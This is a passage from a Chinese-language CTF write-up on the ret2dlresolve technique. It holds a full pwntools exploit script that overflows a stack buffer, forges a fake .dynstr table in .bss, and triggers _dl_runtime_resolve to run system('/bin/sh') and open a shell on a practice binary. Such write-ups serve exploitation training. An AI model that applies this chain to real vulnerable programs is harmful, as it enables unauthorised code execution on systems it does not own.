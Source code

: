 ```python
sh.send(dynstr_data) # fake dynstr table
sh.send("/bin/sh\x00") # 最终函数参数
sh.send(p64(fake_table)) # 修改dynstr table指针
```

## step 3: 添加函数参数，手动触发dl_runtime_desolve

我们最终要执行`system`函数，因此需要将`system`函数的参数即`/bin/sh`的地址放到`rdi`中。

观察原本的`read`函数的`plt`表，如下：

![image-20240606161906570](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202406061619623.png)

可以看到是这里来完成`dl_runtime`的触发。因此，我们只需要构建好参数后，将程序控制流劫持到这个地方，即可执行`system("/bin/sh")`。

到此，整个过程的`exp`为：

```python
from pwn import *

filename = './pwn'
context.arch='amd64'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

pop_rdi = 0x4011d3
pop_rsi_r15 = 0x4011d1
pop_rdx = 0x401136
offset = 0x108
dynstr_table_addr = 0x4031f0
fake_table = elf.bss() + 0x200
binsh_addr = elf.bss() + 0x300
start_resolve = 0x401020

dynstr_data = elf.get_section_by_name('.dynstr').data().replace(b'read', b'system')

# step 0: 在bss上构建一个fake dynstr table
payload = b'a'*0x108 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(fake_table) + p64(0xdeadbeaf) + p64(elf.plt['read'])
# step 1: 在bss上写一个binsh字符串，作为system函数参数
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(binsh_addr) + p64(0xdeadbeaf) + p64(elf.plt['read'])
# step 2: 修改dynamic中的dynstr字符串表，将其改为伪造的dynstr table的地址
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(dynstr_table_addr) + p64(0xdeadbeaf) + p64(elf.plt['read'])
# step 3: 给system添加参数后，手动触发_dl_runtime_resolve
payload += p64(pop_rdi) + p64(binsh_addr) + p64(start_resolve)

sh.send(payload)

sh.send(dynstr_data)
sh.send("/bin/sh\x00")
sh.send(p64(fake_table))
sh.interactive()
```
